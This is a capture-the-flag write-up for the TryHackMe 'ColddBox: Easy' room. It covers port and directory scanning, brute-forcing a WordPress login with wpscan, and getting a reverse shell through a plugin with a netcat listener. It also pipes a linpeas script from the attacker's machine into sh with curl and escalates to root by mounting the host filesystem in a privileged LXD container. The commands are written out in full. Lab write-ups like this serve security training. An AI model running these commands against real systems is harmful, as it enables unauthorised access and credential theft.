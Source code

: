 # > ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
_ # nmap -T4 -sV -A target > nmap_scan.txt_

```
![1](url)

So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
# gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt
-e -o dir.txt 
```
![2](url)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](url)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ wpscan --url http://target/wp-login.php -e u -P
/usr/share/wordlist/rockyou.txt 

```
![4](url)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-she
ll>.

![5](url)

I started a netcat listener on my machine on port 8000 ```bash # nc -lvnp 8000 ```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[linpeas.sh]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suit
e/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine ```bash # python3 -m http.server 1234 ``` and on target run it using
``` $ curl http://<attackbox_ip>:1234/linpeas.sh | sh ```, This will directly
run the shell script on the target machine.

![6](url)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner ```bash $ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  
$ su c0ldd ``` and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory ```bash $ cat /home/c0ldd/user.txt ```.

![7](url)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](url)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

>Add the image :
```bash $ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
>Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
>Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it ```bash $ cat /mnt/root/root.txt ```

![9](url)

With that the we rooted the box.